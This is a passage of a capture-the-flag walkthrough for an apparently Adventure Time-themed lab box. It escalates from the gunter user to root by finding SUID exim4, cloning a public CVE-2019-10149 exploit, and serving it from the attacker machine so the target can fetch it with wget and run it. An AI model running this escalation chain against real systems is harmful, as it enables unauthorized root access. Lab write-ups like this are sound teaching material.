 1. Now that we've gained access as the gunter user, our goal is to elevate privileges further to the Princess Bubblegum account. Let's begin by identifying potential privilege escalation vectors by searching for SUID binaries (files that execute with the owner's permissions)
   - The results show several SUID binaries, but `/usr/sbin/exim4` stands out as unusual and potentially exploitable. Exim4 is a mail transfer agent (MTA) that typically doesn't need SUID permissions

```Bash
find / -perm -u=s -type f 2>/dev/null
```

[SCREEN33]

2. After researching online, we discover that this specific version of exim4 is vulnerable to CVE-2019-10149, a remote command execution vulnerability. Before exploiting, we need to determine which port exim4 is running on by checking its configuration
   - The configuration file reveals the mail server is running on port 60000

```Bash
cat /etc/exim4/update-exim4.conf.conf
```

[SCREEN34]

3. Let's download an existing exploit from GitHub to leverage this vulnerability. We'll clone the repository on our attacking machine and modify the exploit to target the correct port
   - In the wizard.py file, we need to change the default port from 25 to 60000 to match our target's configuration

```Bash
git clone https://github.com/AzizMea/CVE-2019-10149-privilege-escalation exim4
cd exim4
nano wizard.py
```

[SCREEN35]

4. Now we need to transfer the exploit to the target machine. Let's start a Python HTTP server on our attacking machine to host the exploit file

```Bash
python -m SimpleHTTPServer
```

```Bash
wget http://IP:8000/wizard.py
```

[SCREEN36]
[SCREEN37]

5. Move the wizard.py file to the /tmp directory which typically has execution permissions, and then execute the exploit

```Bash
mv wizard.py /tmp
cd /tmp
python3 wizard.py
```

[SCREEN38]

6. With root access established, we can now navigate to Princess Bubblegum's directory to find the final flag

```Bash
cd /home/bubblegum/
ls
cd Secrets/
ls
cat bmo.txt
```

[SCREEN39]
